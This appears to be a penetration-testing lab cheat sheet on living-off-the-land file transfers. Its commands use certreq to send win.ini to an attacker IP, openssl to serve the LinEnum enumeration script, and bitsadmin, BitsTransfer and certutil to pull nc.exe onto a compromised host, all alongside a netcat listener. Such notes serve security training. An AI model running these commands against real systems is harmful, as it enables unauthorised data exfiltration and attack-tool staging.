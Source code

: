 # LOLBAS
[CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/)
#### Netcat
```shell
sudo nc -lvnp 8000
```
#### Upload win.ini to our Pwnbox
```cmd
certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
```
# GTFOBins
#### Create Certificate in our Pwnbox
```shell
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```
#### Stand up the Server in our Pwnbox
```shell
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```
#### Download File from the Compromised Machine
```shell
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```
# Other Common Living off the Land tools
## Bitsadmin Download function
#### File Download with Bitsadmin
```powershell
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```
#### Download
```powershell
Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```
## Certutil
#### Download a File with Certutil
```cmd
certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```


